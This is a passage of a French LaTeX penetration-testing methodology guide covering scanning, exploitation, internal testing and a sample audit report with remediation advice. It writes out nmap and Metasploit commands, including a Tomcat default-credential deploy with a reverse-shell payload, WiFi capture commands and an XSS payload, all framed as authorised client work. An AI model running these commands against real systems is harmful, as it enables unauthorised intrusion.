variations en fonction des cas et l'utilisation d'une quote, contre quote ou double quote pour le SQL. \MarginPar{\textbf{Injection XSS/SQL}}{-2cm} \\
Des aides mémoire sont disponibles en ligne pour les injections:\begin{itemize}
	\item \gls{SQL}: PostgreSQL\footnote{\url{http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet}}, MySQL \footnote{\url{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}}, Oracle \footnote{\url{http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet}}
	\item \gls{XSS}: rappel\footnote{\url{http://breakthesecurity.cysecurity.org/2012/02/complete-cross-site-scriptingxss-cheat-sheets-part-1.html}}, évasion\footnote{\url{https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet}}, html5 \footnote{\url{http://html5sec.org/}}\\
		 \\
\end{itemize}

Pour réaliser l'analyse des données de la couche transport, l'utilisation d'un proxy applicatif permet de manipuler les données en les interceptant. Le consultant peut ainsi les modifier avant de les renvoyer ou simplement de les faire disparaitre. La plupart des proxys applicatifs permettent également d'analyser l'entropie des données, de parcourir l'arbre d'un site web, voire même de réaliser un fuzzing sur les entrées. Des outils comme Burp\footnote{\url{https://portswigger.net/burp/}} ou Zap\toolindex{Proxy applicatif!Burp}\toolindex{Proxy applicatif!Zap} permettent de réaliser cela.\MarginPar{\textbf{Proxy Applicatifs}}{-2cm}\\

	S'il s'agit d'une ou plusieurs machines, le consultant peut tester les services disponibles sur la machine en réalisant un scan réseau. Différents types de scan sont possibles et recommandés: un scan rapide TCP pour les services les plus courants, un scan UDP et un scan TCP plus complet pour couvrir les services non détectés aux premiers scans. La commande \tool{nmap}\footnote{nmap est un programme réalisé par Fyodor et disponible sur toutes les distributions GNU/Linux, il est téléchargeable sur Windows sur \url{https://nmap.org/download.html}} pour commencer est:
\begin{FlagConsole}{Utilisation de la commande nmap}
\tool*{nmap -Pn --top-ports 1000 -sV --version-all -vvv -oA name IP}[\#]
\tcblower
-Pn: force à scanner même si l'hôte ne répond pas au ping\\
--top-ports 1000: essaye les 1000 ports les plus courants\MarginPar{\textbf{Scan Réseau TCP}}{0cm}\\
-sV --version-all: essaye de déterminer la version de chaque service\\
-vvv: permet une analyse verbeuse\\
-oA: Produit un fichier rapport qui pourra être utilisé dans les phases suivantes
\end{FlagConsole}

Pour balayer les ports UDP le consultant peut utiliser l'option -sU de nmap (qui nécessite les droits administrateur ou le scanner udp-sweep de \tool{metasploit}.
\begin{FlagConsole}{Utilisation de Metasploit}
	Positionne le module udp\_sweep en utilisation.\\
	\msf{}{use auxiliary/scanner/discovery/udp_sweep}\\
	 \\
	Paramètre les cibles à balayer (ici la plage 192.168.1/24)\\
	\msf{auxiliary}[udp\_sweep]{set RHOSTS 192.168.1.2-254}\\
	 \\
	 Paramètre le nombre de threads parallèles pour le balayage.\\
	 \MarginPar{\textbf{Scan Réseau UDP}}{-1cm}
	\msf{auxiliary}[udp\_sweep]{set THREADS 253}\\
	 \\
	Lance le balayage
	\msf{auxiliary}[udp\_sweep]{run}\\
\end{FlagConsole}
Après avoir collecté une quantité suffisante de données, le projet entre dans une phase d'analyse.
\subsection{Analyse}
\begin{Define}{TIE@Test d'intrusion externe!Analyse}
	Durant la phase d'analyse, le consultant recherche les vulnérabilités disponibles pour les services découverts et en liste la criticité et l'exposition de la cible. En fonction de l'impact des vulnérabilités découvertes, le consultant devra tenir le client informé de celles qu'il choisira de tester.
\end{Define}
Il existe de nombreux catalogues de vulnérabilités disponibles en ligne ou embarqués dans des outils. En ligne, CVE Details\footnote{\url{http://www.cvedetails.com/}} présente un catalogue de vulnérabilité selon les standards les plus répandus. D'autres catalogues existent pouvant être propres à un outil ou à une distribution. Ainsi le code DSA fait référence aux vulnérabilités Debian et CERTFR aux vulnérabilités ayant fait l'objet d'une notice de l'ANSSI. Une partie de ces vulnérabilités ne disposent pas d'exploitation connue. En fonction de la durée de la mission, il peut être plus ou moins pertinent de tenter d'écrire un exploit.\\
Des logiciels comme \tool{metasploit}\footnote{\url{https://github.com/rapid7/metasploit-framework}} ou \tool{Nessus}\footnote{\url{http://www.tenable.com/products/nessus/select-your-operating-system}} disposent de bases de données hors ligne de vulnérabilités permettant de corréler les résultats des scans à la liste des vulnérabilités. Metasploit permet notamment d'enregistrer les scans nmap en base à partir de sa sortie XML et d'enregistrer les résultats d'exploitation directement en base.\MarginPar{\textbf{Recherche de vulnérabilités}}{0cm}\\
	Des sites permettent également de récupérer des exploits réalisés par la communauté comme \href{https://www.exploit-db.com/}{exploit-db} ou \href{https://packetstormsecurity.com/}{Packet Storm} ou par des vendeurs extérieurs comme sur \href{1337day.com}{1337day}. Il s'agit naturellement d'une liste non exhaustive. Il est également recommandé de consulter le site du logiciel incriminé pour rechercher les vulnérabilités dans les mises à jour. \\
	Très souvent, les vulnérabilités sont d'ordre humaines: mots de passe trop peu complexes, fuites d'information permettant d'obtenir de nouveaux vecteurs d'attaque, mots de passe redondants... Cependant ces problèmes apparaissent directement dans la phase d'exploitation. Le consultant ne doit pas hésiter à revenir régulièrement à la phase d'analyse.

\begin{Warning}Cette phase reste avant tout une phase de recherche, elle ne doit pas servir de phase d'exploitation.\end{Warning}
\subsection{Usage}
\begin{Define}{TIE@Test d'intrusion externe!Usage}\index{TIE@Test d'intrusion externe!Exploitation|see{Test d'intrusion externe!Usage}}
	La phase d'exploitation est l'aboutissement d'une phase de recherche avancée. Elle doit se conformer aux exigences du client et ainsi exclure - selon la volonté du client - les tests destructifs ou incapacitants. Le consultant doit faire attention à ce que le métier client soit le moins impacté possible.
\end{Define}
\begin{Warning}Lors de l'exploitation des vulnérabilités, le consultant peut être amené à découvrir de nouvelles cibles, il doit alors retourner à la première phase du pentest pour redéfinir son périmètre et le faire progresser.\end{Warning}
\begin{FlagConsole}{Utilisation de Metasploit dans un cycle découverte/exploitation}
	Cette commande essaye de déterminer les utilisateurs d'un tomcat par l'utilisation des mots de passe par défaut. On suppose pour l'exemple que les identifiants tomcat/tomcat se sont révélés corrects.\\
	\msf{}{use auxiliary/scanner/http/tomcat_mgr_login}\\
	\msf{auxiliary}[tomcat\_mgr\_login]{set RHOSTS 192.168.1.1}\\
	\msf{auxiliary}[tomcat\_mgr\_login]{set RPORT 8080}\\
	\msf{auxiliary}[tomcat\_mgr\_login]{exploit}\\
	\tcblower
	\msf{}{use exploit/multi/http/tomcat_mgr_deploy}\\
	\msf{exploit}[tomcat\_mgr\_deploy]{set USERNAME tomcat}\\
	\MarginPar{\textbf{Metasploit}}{0cm}\toolindex{metasploit!tomcat\_mgr\_deploy}\toolindex{metasploit!tomcat\_mgr\_login}\msf{exploit}[tomcat\_mgr\_deploy]{set PASSWORD tomcat}\\
	\msf{exploit}[tomcat\_mgr\_deploy]{set RPORT 8080}\\
	 \\
	Il est possible de rajouter un payload pour l'exploitation pratique de la vulnérabilité.\\Cette commande ouvre un meterpreter si l'exécution s'effectue correctement ce qui permet de continuer à exploiter le système.\\
	\msf{exploit}[tomcat\_mgr\_deploy]{set payload linux/x86/shell_reverse_tcp}\\
	\msf{exploit}[tomcat\_mgr\_deploy]{set RHOST 192.168.1.1}\\
	\msf{exploit}[tomcat\_mgr\_deploy]{set LHOST 192.168.1.2}\\
	\msf{exploit}[tomcat\_mgr\_deploy]{exploit}\\	
\end{FlagConsole}
\begin{Stop}En cas de problèmes liés au pentest, le consultant devra immédiatement en informer le responsable de mission qui contactera le client.\end{Stop}
	Chaque exploit effectué doit faire l'objet d'une documentation exhaustive expliquant la méthodologie et les résultats obtenus que \textbf{ceux-ci soient positifs ou négatifs}. En cas de résultats négatifs, ceux-ci peuvent servir à attester du travail effectué auprès du client; en cas de résultats positifs, ceux-ci seront expliqués et illustrés dans le rapport à destination du client afin que le client puisse constater et vérifier les résultats. Cependant \textbf{seuls les résultats pertinents figureront dans le rapport}.\\
	L'exploitation se constitue aussi de phases hors-ligne. Il est courant qu'une vulnérabilité d'injection provoque une fuite de données considérables. Le consultant devra réaliser des tests hors-ligne sur les condensats de mots de passe ainsi obtenus. Ces fuites permettent également d'élargir les dictionnaires existants de CTF. Cependant, il faut penser à anonymiser ces valeurs avant de les partager ou de les inclure au rapport.\\

\subsection{Formalisation}
\ForwardToIndex  \hspace{1em}  \hyperref[Rapport]{Voir la méthodologie de rédaction de rapport.}
\begin{Define}{Rapport@Rapport!Test d'intrusion externe}
	\MarginPar{\textbf{Rapport}}{0cm}
	Le rapport ne doit être remis qu'au commanditaire de la mission et doit être facile à appréhender. Il est réalisé de manière concise et peut être transmis au conseil d'administration autant qu'à la DSI. Il se compose d'une partie synthétique, récapitulant et présentant les vulnérabilités découvertes au cours du pentest et les recommandations associées, et d'une partie technique, permettant la reproduction des tests.\\
Le consultant doit aussi proposer au client une méthodologie pour supprimer les différentes backdoors qu'il aura insérées dans le réseau s'il n'est pas en mesure de le faire.
\end{Define}
Le rapport sert à expliciter les problèmes et à proposer des solutions compréhensibles par le client. C'est le cœur du métier de consultant.

\section{Test d'intrusion interne}
	Lors d'un test d'intrusion interne, la méthodologie s'approche grandement de la méthodologie du test d'intrusion externe. Quelques variations se produisent du fait de l'environnement particulier dans lequel le consultant se trouve. Ces différences seront abordées dans la partie suivante.
\subsection{Scope}
\subsubsection{Analyse passive du périmètre}
Lors d'un test d'intrusion interne, l'analyse passive se réalise par écoute du réseau local. Cette écoute peut se réaliser à l'aide de l'outil \tool{tcpdump} ou l'outil \tool{wireshark}. \MarginPar{\textbf{Capture réseau}}{0cm}Cependant pour des raisons de sécurité, il est recommandé d'exécuter la capture et la lecture dans deux sessions différentes car les parseurs de wireshark sont susceptibles d'être vulnérables et une exécution en droit administrateur peut être assez dangereuse.\\
	En fonction du périmètre de l'attaque, le consultant peut aussi être amené à auditer le réseau WiFi du client, là encore une écoute passive peut être réalisée avec \tool{tcpdump} ou la suite \tool{aircrack-ng}.
\begin{FlagConsole}{Utilisation de la commande nmap}
	\tool*{airmon-ng start wlan0}[\#]\\
	 \\
	wlan0: L'interface réseau utilisé pour la capture.
	\tcblower
	\tool*{airodump-ng -c 7 -w name -N networkClient mon0}[\#]\\
	 \\
	-c 7: Permet de fixer le canal de capture sur le channel 7\\
	-w name: Définit le fichier d'enregistrement\\
	-N networkClient: Définit le ESSID dont il faut capturer les paquets\\
\end{FlagConsole}
	Le fichier .pcap s'ouvre ensuite facilement à l'aide de \tool{wireshark} et peut être déchiffré grâce au dissecteur IEEE 802.11.

	Durant la phase d'écoute, le consultant doit chercher à détecter les infrastructures du réseau afin de pouvoir ensuite s'y attaquer. Ces infrastructures peuvent se manifester en étant des destinations de messages NBNS ou simplement via la configuration automatique du réseau (serveur DNS/DHCP, route réseau...). À l'aide de ces informations le consultant peut dresser un schéma réseau primitif.

\subsubsection{Analyse active du périmètre}
	Comme pour les tests d'intrusion externes, \tool{nmap} reste un outil de prédilection pour auditer les serveurs sur un réseau. En plus de ses propriétés de scanneur de port, \tool{nmap} permet aussi de réaliser un balayage rapide ou \textit{ping sweep}.
\begin{FlagConsole}{Utilisation de la commande nmap}
	\tool*{nmap -sn 10.0.0.0/8}\\
	\tcblower
	\MarginPar{\textbf{Ping Sweep}}{0cm}Cette commande permet de réaliser un scan complet du réseau sur la plage ip des 10.0.0.0/8. Ce scan envoie un paquet ICMP et tente de se connecter sur les ports 443 et 80 via un paquet tcp (S et A). Il est possible de le coupler avec n'importe quelle option en -P (excepté -Pn) pour plus de flexibilité.
\end{FlagConsole}

Il est possible également de requêter les différents serveurs Active Directory (AD)\index{Active Directory} afin d'obtenir des informations complémentaires sur le réseau ou sur les politiques en vigueur sur le réseau (en fonction de l'équipement fourni). Ces serveurs peuvent aussi donner des informations DNS suffisamment explicites pour déterminer le rôle d'autres serveurs.

\subsection{Analyse/Usage}
	Lors d'un test d'intrusion interne, plus que sur un test d'intrusion externe, ces deux phases sont associées et se répondent rapidement. En plus de l'exploitation standard de vulnérabilités logicielles, le consultant doit utiliser les mauvaises configurations et les mots de passe par défaut qui sont restés activés. Dès que le consultant a obtenu l'accès d'une machine, il peut l'utiliser pour rebondir sur d'autres machines du réseau voir accéder à d'autres réseaux.
	\begin{Warning}
		Il est nécessaire de tenir le client au courant en cas d'accès à des réseaux vraiment sensibles (systèmes de production, réseaux d'un autre site...).
	\end{Warning}
\subsection{Formalisation}
\ForwardToIndex \hspace{1em} \hyperref[Rapport]{Voir la méthodologie de rédaction de rapport.}
\begin{Define}{Rapport@Rapport!Test d'intrusion interne}
	Lors d'une intrusion en test d'intrusion interne, le client tend souvent à dévaluer les risques car le consultant a agit "clef en main" au sein du réseau. Il est important de souligner dans le rapport qu'un virus ou un utilisateur malveillant sera en mesure d'agir de même.\MarginPar{\textbf{Rapport}}{0cm}\\
	De même, ce type de test apporte, en plus du schéma vulnérabilités/recommandations standard, des recommandations sur l'infrastructure du réseau à mettre en place.
\end{Define}

\section{Rapport de test d'intrusion\label{Rapport}}
\begin{Warning}
Cette méthodologie est basée sur celle définie par le SANS dans la formation SEC 560. Chaque entreprise peut avoir ses propres spécificités concernant la mise en avant des vulnérabilités ou la qualification des risques et des vulnérabilités, de même la méthodologie utilisée est variable.\\
La version présentée ici déplace l'introduction (Définition du scope, des objectifs et de l'équipe) et la méthodologie (La méthodologie utilisée avec les tests spécifiques menés) en préambule.

\end{Warning}
Un rapport de test d'intrusion se constitue de quatre parties:\begin{itemize}
\item L'introduction définit le contexte de la mission incluant sa durée, sa location, ses objectifs et ses membres.
\item Une  synthèse managériale récapitulant les vulnérabilités techniques
\item Une partie récapitulant les constats et les tests réalisés: C'est le résumé technique.
\item Un tableau récapitulatif des vulnérabilités indiquant leur criticité et les mesures correspondantes conclut le document.
\end{itemize}

\subsection{Synthèse managériale}
\index{Rapport@Rapport!Synthèse managériale}
La synthèse managériale est un résumé des résultats du test d'intrusion servant à présenter les résultats à l'équipe de direction de l'entreprise ciblée. Cette partie ne contient pas de détails techniques, elle doit en revanche contenir:\begin{itemize}
\item Une vue globale de l'état de sécurité du système
\item Les vulnérabilités avec une emphase sur les plus critiques
\item Les problèmes fonctionnels à l'origine de ces vulnérabilités (contrôle côté client, protection des données...)
\item Les objectifs temporels pour la mise en place des corrections
\end{itemize}

% Inspiré de http://www.texample.net/tikz/examples/spiderweb-diagram/
\newcommand{\nValue}{5}
\newcommand{\nScale}{5} 
\newdimen\radius 
\radius=3.5cm 
\newdimen\category
\category=4cm
\newcommand{\angulus}{360/\nValue}
\newcommand{\correction}{90-\angulus}

\begin{lrbox}{\SchematicsBox}
\begin{tikzpicture}[scale=0.9]
  \path (0:0cm) coordinate (O); 
  \foreach \X in {1,...,\nValue}{
    \draw (\X*\angulus+90:0) -- (\X*\angulus+90:\radius);
  }
 \foreach \Y in {1,...,\nScale}{\path (90:\Y*\radius/\nScale) node[left,sloped] {\tiny \Y};}

  \foreach \Y in {0,...,\nScale}{
    \foreach \X in {1,...,\nValue}{
      \path (\X*\angulus+90:\Y*\radius/\nScale) coordinate (D\X-\Y);
      \fill (D\X-\Y) circle (1pt);
    }
    \draw [opacity=0.3] (90:\Y*\radius/\nScale) \foreach \X in {1,...,\nValue}{
        -- (\X*\angulus+90:\Y*\radius/\nScale)
    } -- cycle;
  }
\foreach \X/\Y in {1/Output Sanitization,2/Input Filtering,3/Session Management,4/Cryptographic Implementation,5/Security Configuration}{
	\path (\X*\angulus+90:\category) node[rotate=(\X*\angulus-90+(90-\X*\angulus)/(abs(90-\X*\angulus))*(270-\X*\angulus)/(abs(270-\X*\angulus))*90,sloped] {\tiny \Y};}

  \filldraw [color=red,line width=1.5pt,opacity=0.5]
    (D1-4) --
    (D2-3) --
    (D3-2) --
    (D4-4) --
    (D5-5) -- cycle;
\end{tikzpicture}
\end{lrbox}

\Schematics[Security Overview\label{SecurityOverview}]{%
\noindent
\tornpaper{
\parbox{.5\textwidth}{\usebox\SchematicsBox}
}%
}{%
Ce schéma représente un aperçu global de l'état de la sécurité sur le système audité. Il permet aux instances managériales d'avoir un premier repère sur les axes à améliorer.\MarginPar{\textbf{Security Overview}}{0cm}\\
Ici, le site web semble avoir de gros problème avec la gestion des sessions et le contrôle des entrées utilisateurs.
}
\begin{FlagConsole}{Tableau récapitulatif des vulnérabilités}
\small
\noindent
\tornpaper{
\parbox{0.95\textwidth}{
\begin{tabular}{c | p{3.7cm} c p{4.2cm} p{1,9cm}}
Ref&Vulnerabilité&Difficulté&Risques&Criticité\\\hline\hline
 & & & & \\
V2&XSS dans le panneau d'administration&\textbf{Moyen}\cellcolor{yellow}&Vol de session, exécution de script sur le client&\textbf{Moyen}\cellcolor{yellow}\\
 & & & & \\
V4&Redirection arbitraire sur la page de login&\textbf{Faible}\cellcolor{red}&Vol de mot de passe&\textbf{Important}\cellcolor{red}\\
 & & & & \\
V5&CSRF dans l'interface d'administration&\textbf{Faible}\cellcolor{red}&Création d'utilisateur administrateur, escalade de privilège&\textbf{Important}\cellcolor{red}\\
\end{tabular}
}}
\normalsize
\tcblower
Ce tableau est cohérent avec le graphique présenté ci-dessus.\MarginPar{\textbf{Tableau récapitulatif des vulnérabilités}}{0cm} Il met rapidement en avant les vulnérabilités critiques, leur gravité via la difficulté et l'impact, les risques induits en terme non techniques. Il est également facilement compréhensible quant à l'espace concerné par les vulnérabilités (login, espace d'administration).
\end{FlagConsole}

\begin{lrbox}{\SchematicsBox}
\begin{tikzpicture}[xscale=3.2, yscale=2.5]
\draw[very thin,color=gray] (-0.1,-0.1) grid (3.2,3.1);
\draw[->] (0,-0.1) -- (0,3.1);
\draw[->] (-0.1,0) -- (3.2,0);
\path (-0.3,3/2) node[rotate=90,sloped] {Difficulté de correction};
\path (3/2,-0.3) node[sloped] {Mise en place};
\foreach \X/\Y/\Z in {1/Facile/Rapide,2/Moyen/Court terme,3/Très difficile/Long terme}{
	\path (-0.1,\X-0.5) node[rotate=90,sloped] {\tiny \Y};
	\path (\X-0.5,-0.1) node[sloped] {\tiny \Z};
}
\path (1-0.03,-0.01) node[left,rotate=90,sloped] {\tiny 3 mois};
\path (2-0.03,-0.01) node[left,rotate=90,sloped] {\tiny 6 mois};

\draw (3.55,2.45) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,draw=red,very thick,fill=blue!10] {\tiny Recommandation critique.};
\draw (3.55,2.95) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,draw=black,very thick,fill=blue!10] {\tiny Recommandation basique.};
\draw (3.15,1.8) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize VX};
\draw (3.59,1.8) node[inner sep=0pt,text width=2cm] {\tiny Référence de la vulnérabilité};

\draw (0.55,0.95) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,very thick,fill=blue!10] {\tiny Mettre en place un système de contrôle des autorisations côté serveur.};
\draw (0.09,0.9) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize V5};
\draw (1.05,1.95) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,draw=red,very thick,fill=blue!10] {\tiny Implémenter un contrôle de toutes les entrées utilisateurs.};
\draw (0.59,1.9) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize V2};
\draw (0.59,1.65) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize V4};
\draw (2.55,0.95) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,very thick,fill=blue!10] {\tiny Implémenter une meilleure gestion des codes d'erreurs};
\draw (2.09,0.9) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize V3};
\draw (0.55,2.95) node[rectangle,below,inner sep=5pt,draw,rounded corners,text width=2.5cm,very thick,fill=blue!10] {\tiny Améliorer la configuration TLS en upgradant les suites cryptographiques.};
\draw (0.09,2.9) node[circle,inner sep=0pt,draw,fill=blue!30] {\footnotesize V1};
\end{tikzpicture}
\end{lrbox}

\begin{FlagConsole}{Plan d'action}
\noindent
\tornpaper{
\parbox{.95\textwidth}{\usebox\SchematicsBox}
}%
\tcblower
Le plan d'action doit mettre en avant les actions à réaliser rapidement et la difficulté d'implémentation. \MarginPar{\textbf{Plan d'Action}}{0cm} Ici l'action à réaliser en premier est mise en avant par un encadrement visible.
\end{FlagConsole}

\subsection{Résumé technique}
Cette partie contient le cœur du rapport. Il s'agit de l'énumération des constats et des tests réalisés, avec:\begin{itemize}
\item \textbf{La qualification}: La qualification doit prendre en compte la probabilité et l'impact du risque. La vulnérabilité est accompagné d'un risque et de l'impact de ce risque.
\item \textbf{La méthodologie et le payload éventuel}: Par exemple dans le cas d'une injection le texte ayant servi à injecter le code. Ce point permet au client de reproduire les tests.
\item \textbf{Une preuve visuelle appelée preuve d'audit}: Il peut s'agir d'une capture d'écran ou d'une reproduction de sortie texte (code source, retour de commande).
\item \textbf{Une recommandation}: Cette proposition peut être extrêmement détaillée (correction pour un langage donné, configuration de fichier de configuration) ou plus générale (bonnes pratiques, gestion de prestataires) en fonction du contexte.
\end{itemize}
L'organisation des vulnérabilités peut se faire suivant les axes définis dans le \hyperref[SecurityOverview]{Security Overview} ou dans l'ordre chronologique. La première méthode permet de mieux visualiser en fonction des axes à améliorer tandis que le second permet de comprendre le déroulement de l'intrusion.
\newpage

\begin{lrbox}{\SchematicsBox}
\payloadhtml{<script>alert('blah');</script>}
\end{lrbox}

\begin{LongFlagConsole}{Vulnérabilité XSS et implémentation cryptographique}
\small
\noindent
\tornpaper{
\parbox{0.95\textwidth}{
\section*{Assainissement des sorties}
\subsection*{XSS dans le panneau d'administration}
\begin{tabular}{c | p{3.7cm} c p{4.2cm} p{1,9cm}}
Ref&Vulnerabilité&Difficulté&Risques&Criticité\\\hline\hline
 & & & & \\
V2&XSS dans le panneau d'administration&\textbf{Moyen}\cellcolor{yellow}&Vol de session, exécution de script sur le client&\textbf{Moyen}\cellcolor{yellow}\\
 & & & & \\
\end{tabular}\\
\subsubsection*{Scenario}
Les consultants ont découvert une injection XSS dans le panneau d'administration à l'adresse: \textcolor{blue}{https://example.com/admin}.\\
En effet, en ajoutant le code HTML suivant dans le champ "\textit{username}", les consultants ont réussi a exécuté sa commande arbitraire.
\begin{center}\usebox\SchematicsBox \\
Payload 1 : XSS Payload \end{center}
L'injection est présente dans le formulaire accessible à l'adresse /admin/ et transmet les informations via une requête POST à l'adresse \textbf{/admin/AddUser}.\\
\begin{center}
\includegraphics[width=.9\textwidth]{audit_proof_1.png}\\Figure 1: Exploitation du payload XSS\end{center}%
}}\\[1cm]
\begin{lrbox}{\SchematicsBox}
\payloadhtml{ encoderType="System.Web.Security.AntiXss.AntiXssEncoder"}
\end{lrbox}
\tornpaper{
\parbox{0.95\textwidth}{
\begin{center}
\includegraphics[width=.7\textwidth]{audit_proof_2.png}\\Figure 2: Affichage de l'attaque XSS\end{center}
Comme montré ci-dessus, l'entrée n'est pas filtrée et la sortie n'est pas assainie. Cependant les consultants ont identifié l'utilisation du flag \textbf{HttpOnly} sur le cookie de session comme montré sur la capture suivante.
\begin{center}
\includegraphics[width=.7\textwidth]{audit_proof_3.png}\\Figure 3: HttpOnly\end{center}
Ce flag permet de protéger le cookie contre un vol d'information par injection de code javascript. C'est une bonne pratique.\\
Cependant, le site reste vulnérable à l'injection de code à d'autres fins comme l'utilisation d'un keylogger.
\subsubsection*{Recommandations}
\textbf{La société recommande de mettre en place le filtrage des entrées et l'assainissement des sorties.}\\
Ce site ayant été réalisé en .NET, il est possible d'utiliser la fonction \textbf{AntiXssEncoder.HtmlEncode()} présente dans la bibliothèque native \textbf{System.Web.Security.AntiXss}. Cette fonction assainit les entrées en utilisant un encoder HTML qui échappe les caractères dangereux.
\begin{center}\usebox\SchematicsBox \\
Recommandation 1 : XSS Protection \end{center}
Avec ASP.NET Webpages, la sortie des fonctions embarquées (les blocs commençant par @) appelle automatiquement l'\textbf{encoderType} défini dans le \textbf{web.config} pour sanitiser la sortie. Depuis .NET 4.0, ASP.NET peut ne pas réaliser cet assainissement en typant le type de sortie en HtmlString ou MvcHtmlString.\\
}}
\normalsize
\tcblower
\begin{lrbox}{\SchematicsBox}
\tool*{sslscan example.com}
\end{lrbox}
\small
\noindent
\tornpaper{
\parbox{0.95\textwidth}{
\section*{Implémentation cryptographique}
\subsection*{Mauvaise configuration SSL/TLS}
\begin{tabular}{c | p{3.7cm} c p{4.2cm} p{1,9cm}}
Ref&Vulnerabilité&Difficulté&Risques&Criticité\\\hline\hline
 & & & & \\
V1&Mauvaise configuration SSL/TLS&\textbf{Difficile}\cellcolor{green}&Interception des communications, vol de session&\textbf{Important}\cellcolor{red}\\
 & & & & \\
\end{tabular}\\
\subsubsection*{Scenario}
Les consultants ont testé l'implémentation SSL en utilisant la commande suivante:
\begin{center}\usebox\SchematicsBox \\
Payload 5 : sslscan command \end{center}
\subsubsection*{SSL/TLS Protocols}
La cible utilise de nombreux protocoles SSL.\\
\indent \textcolor{red}{Protocoles désuets et dangereux}\\
\indent \textcolor{orange}{Protocoles dangereux mais nécessaire pour les vieux navigateurs}\\
\indent \textcolor{Green}{État de l'art}\\
\begin{tabular}{c c p{5cm} }
Protocole & Taille de clef & Suite Cryptographique \\\hline
\multirow{5}{*}{\textcolor{orange}{TLSv1.0}} & \textcolor{orange}{112 bits} & \textcolor{orange}{DES-CBC3-SHA}\\
								&\multirow{3}{*}{\textcolor{orange}{128 bits}} & ECDHE-RSA-AES128-SHA \\
								&									&\textcolor{red}{RC4-SHA}\\
								&									&\textcolor{red}{RC4-MD5}\\
								& 256 bits								& \textcolor{orange}{ECDHE-RSA-AES256-SHA}\\
\multirow{5}{*}{TLSv1.1} & \textcolor{red}{112 bits} & \textcolor{orange}{DES-CBC3-SHA}\\
								&\multirow{3}{*}{\textcolor{orange}{128 bits}} & \textcolor{orange}{ECDHE-RSA-AES128-SHA}\\
								&									&\textcolor{red}{RC4-SHA}\\
								&									&\textcolor{red}{RC4-MD5}\\
								& 256 bits								& \textcolor{orange}{ECDHE-RSA-AES256-SHA}\\
\multirow{5}{*}{\textcolor{Green}{TLSv1.2}} & \textcolor{red}{112 bits} & \textcolor{orange}{DES-CBC3-SHA}\\
								&\multirow{4}{*}{\textcolor{orange}{128 bits}} & ECDHE-RSA-AES128-SHA \\
								&									& \textcolor{orange}{ECDHE-RSA-AES128-SHA256}\\
								&									&\textcolor{red}{RC4-SHA}\\
								&									&\textcolor{red}{RC4-MD5}\\
								& \multirow{2}{*}{\textcolor{Green}{256 bits}}	& \textcolor{orange}{ECDHE-RSA-AES256-SHA}\\
								&									& \textcolor{Green}{ECDHE-RSA-AES256-SHA384}\\
\end{tabular}
}}\\[1cm]

\tornpaper{
\parbox{0.95\textwidth}{
DES-CBC3-SHA est nécessaire pour les versions d'Internet Explorer avant IE10, les versions d'Android antérieures à 5.0 et les versions de Java antérieures à Java 7.\\
RC4 est gravement vulnérable et ne doit plus être utilisé.\\
ECDHE et DHE renforcent le principe de Forward Secrecy permettant de garantir la sécurité des communications sur la durée.\\
example.com n'utilise pas d'implémentation SSLv2 et SSLv3 ni de suites cryptographiques de type EXPORT, \textbf{c'est une bonne pratique}.\\
Cependant example.com utilise \textbf{AES-CBC}, cette implémentation expose les utilisateurs utilisant d'ancien navigateurs à des attaques BEAST et Lucky13.\\
\textbf{La société des consultants recommande de désactiver les suites cryptographiques désuettes et de mettre à jour les algorithmes utilisés par le serveur.}
\subsubsection*{Certificat}
Le certificat utilisé par example.com est basé sur une clef RSA de 2048 bits. Sa validité est autour d'un an. Ce certificat est correctement configuré et correspond à l'état de l'art.
\subsubsection*{HSTS et HPKP}
Le site example.com ne semble utiliser ni HSTS ni HPKP et n'est d'ailleurs pas présent dans la liste des sites HTTPS par défaut de Google Chrome ou de Mozilla Firefox.\\
\textbf{HSTS} est un header paramétrant le chargement automatique de la page comme HTTPS. Cela évite les attaques par interception.\\
\textbf{HPKP} est un header permettant de réaliser du \textit{Certificate Pinning}, c'est-à-dire de s'assurer que le certificat n'est pas substituer par un autre, même signé par une autorité de confiance valide.\\
Ces fonctionnalités sont utiles pour protéger le site contre des attaques basées sur la substitution ou l'interception de la communication chiffrée.\\
}}
\normalsize
\end{LongFlagConsole}
\begin{lrbox}{\SchematicsBox}
\begin{tikzpicture}
  \tikzstyle{state} = [draw, very thick, fill=white, rectangle, minimum height=3em, minimum width=7em, node distance=7em, font={\sffamily\bfseries}]
